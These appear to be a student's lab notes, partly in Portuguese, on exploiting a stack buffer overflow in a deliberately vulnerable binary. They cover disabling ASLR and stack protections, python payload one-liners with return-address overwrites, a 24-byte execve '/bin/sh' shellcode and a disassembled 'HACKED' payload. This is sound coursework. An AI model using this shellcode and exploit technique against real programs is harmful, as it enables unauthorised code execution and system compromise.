 Disable randomization
kali@kali:/media/sf_Shared_SegSoft-Kali/Protocolos/3-stack$ cat /proc/sys/kernel/randomize_va_space 
2

0 = disabled
1 = Conservative Randomization
2 = Full Randomization

Stack execution
gcc -D_FORTIFY_SOURCE=0 -W -no-pie -fno-stack-protector -z execstack stack.c -o stack

============================================================================================================

loop infinito
python -c 'print "\x90"*8*5 + "\x99\x11\x40\x00\x00\x00\x00\x00"' > badfile
python -c 'print "\x90"*8*5 + "\x99\x11\x40\x00\x00\x00\x00\x00"' > smasher

============================================================================================================

SHELLL NO GDB

Inicio do buffer: 0x00007fffffffcdc0

---------------------------------

\x6a\x3b\x58\x99\x52\x48\xbb\x2f -> shellcode
\x2f\x62\x69\x6e\x2f\x73\x68\x53 -> shellcode
\x54\x5f\x52\x57\x54\x5e\x0f\x05 -> shellcode

\xc0\xdf\xff\xff\xff\x7f\x00\x00 -> return (meter a apontar para a shellcode)

\x90\x90\x90\x90\x90\x90\x90\x90 -> ebp(?)

\x90\x90\x90\x90\x90\x90\x90\x90 -> buffer[32]
\x90\x90\x90\x90\x90\x90\x90\x90 -> buffer[32]
\x90\x90\x90\x90\x90\x90\x90\x90 -> buffer[32]
\x90\x90\x90\x90\x90\x90\x90\x90 -> buffer[32]

---------------------------------

Exploit:
	python -c 'print "\x90"*8*5 + "\xd0\xdf\xff\xff\xff\x7f\x00\x00" + "\x6a\x3b\x58\x99\x52\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x54\x5f\x52\x57\x54\x5e\x0f\x05"' > smasher
	gdb stack
	run
Shell code:
	24 bytes -> char code[] = "\x6a\x3b\x58\x99\x52\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x54\x5f\x52\x57\x54\x5e\x0f\x05";

============================================================================================================

Executar loop sem nada dentro (a: goto a;)
python -c 'print "\x90"*8*5 + "\xd0\xdf\xff\xff\xff\x7f\x00\x00" + "\x55\x48\x89\xe5\x89\x7d\xfc\x48\x89\x75\xf0\xeb\xfe\x90"' > smasher
gdb stack
run

=================================================================================================
HACKED

python -c 'print "\x90"*8*5 + "\x90\xdf\xff\xff\xff\x7f\x00\x00" + "A"*88' > smasher

python -c 'print "A"*8*5 + "\x90\xdf\xff\xff\xff\x7f\x00\x00" + "\x55\x48\x89\xe5\x48\x83\xec\x20\x89\x7d\xec\x48\x89\x75\xe0\xc6\x45\xf8\x48\xc6\x45\xf9\x41\xc6\x45\xfa\x43\xc6\x45\xfb\x4b\xc6\x45\xfc\x45\xc6\x45\xfd\x44\xc6\x45\xfe\x0a\xc6\x45\xff\x00\x48\x8d\x45\xf8\x48\xba\x20\xea\xe4\xf7\xff\x7f\x00\x00\x48\x89\xc7\xb8\x00\x00\x00\x00\xff\xd2\xeb\xe6\x0f\x1f\x44\x00\x00"' > smasher
gdb stack
run

(88)
\x55
\x48\x89\xe5
\x48\x83\xec\x20
\x89\x7d\xec
\x48\x89\x75\xe0
\xc6\x45\xf8\x48
\xc6\x45\xf9\x41
\xc6\x45\xfa\x43
\xc6\x45\xfb\x4b
\xc6\x45\xfc\x45
\xc6\x45\xfd\x44
\xc6\x45\xfe\x0a
\xc6\x45\xff\x00
\x48\x8d\x45\xf8
\x48\xba\x20\xea\xe4\xf7\xff
\x7f\x00\x00
\x48\x89\xc7
\xb8\x00\x00\x00\x00
\xff\xd2
\xeb\xe6
\x0f\x1f\x44\x00\x00

0000000000401102 <main>:
  401102:       55                      push   %rbp
  401103:       48 89 e5                mov    %rsp,%rbp
  401106:       48 83 ec 20             sub    $0x20,%rsp
  40110a:       89 7d ec                mov    %edi,-0x14(%rbp)
  40110d:       48 89 75 e0             mov    %rsi,-0x20(%rbp)
  401111:       c6 45 f8 48             movb   $0x48,-0x8(%rbp)
  401115:       c6 45 f9 41             movb   $0x41,-0x7(%rbp)
  401119:       c6 45 fa 43             movb   $0x43,-0x6(%rbp)
  40111d:       c6 45 fb 4b             movb   $0x4b,-0x5(%rbp)
  401121:       c6 45 fc 45             movb   $0x45,-0x4(%rbp)
  401125:       c6 45 fd 44             movb   $0x44,-0x3(%rbp)
  401129:       c6 45 fe 0a             movb   $0xa,-0x2(%rbp)
  40112d:       c6 45 ff 00             movb   $0x0,-0x1(%rbp)
  401131:       48 8d 45 f8             lea    -0x8(%rbp),%rax
  401135:       48 ba 20 ea e4 f7 ff    movabs $0x7ffff7e4ea20,%rdx
  40113c:       7f 00 00 
  40113f:       48 89 c7                mov    %rax,%rdi
  401142:       b8 00 00 00 00          mov    $0x0,%eax
  401147:       ff d2                   callq  *%rdx
  401149:       eb e6                   jmp    401131 <main+0x2f>
  40114b:       0f 1f 44 00 00          nopl   0x0(%rax,%rax,1)


=================================================================================================

python -c 'print "\x90"*8*5 + "\xd0\xdf\xff\xff\xff\x7f\x00\x00" + "<EXECUTA>"' > smasher

